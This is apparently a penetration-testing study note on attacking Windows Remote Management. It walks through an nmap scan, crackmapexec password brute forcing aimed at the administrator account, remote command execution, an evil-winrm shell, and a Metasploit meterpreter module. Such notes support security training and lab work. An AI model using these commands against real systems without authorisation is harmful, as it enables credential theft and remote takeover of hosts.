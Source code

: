  
### Using `nmap` to identify WinRM

```
nmap -sV -p 5985 <target-ip> 
```

- Ignore the banner/service version displayed by `nmap` as Windows systems don't explicitly have a banner for WinRM. 
- We can verify that the port is running WinRM by using `crackmapexec`.

### Bruteforcing `WinRM` using `crackmapexec`

```
crackmapexec winrm <target-ip> -u <username> -p <pass-file> 
```

- It'll use the `wsman` (Windows Management) service, as `winrm` is the implementation of `wsman` API. 

- Reason to attack `administrator` account:
	+ In a Windows system, the `administrator` account is definitely available as it is the first account that's created when installing Windows.
	+ The `administrator` account will be the user account used by system admins for obvious reasons. 
	+ If we gain access to the `administrator` account, we will have elevated privileges and we won't have to go through the process of elevating our privileges manually.

*Now that we've the credentials, we can use `crackmapexec` to execute arbitrary commands on the target.*

### Using `crackmapexec` to execute arbitrary commands

```
crackmapexec winrm <target-ip> -u <username> -p <password> -x "<command>"
```

- Executing commands will have its own logs on the target system.

### Using `evil-winrm` to gain command shell session

*This is a Ruby script. Use `.rb` extension to use the tool.*

```
evil-winrm.rb -u <username> -p '<password>' -i <target-ip> 
```

### Using `MSF` to get `meterpreter` session

```
use exploit/windows/winrm/winrm_script_exec
```

- Set `FORCE_VBS` to `true`
- Set the `username` & `password`

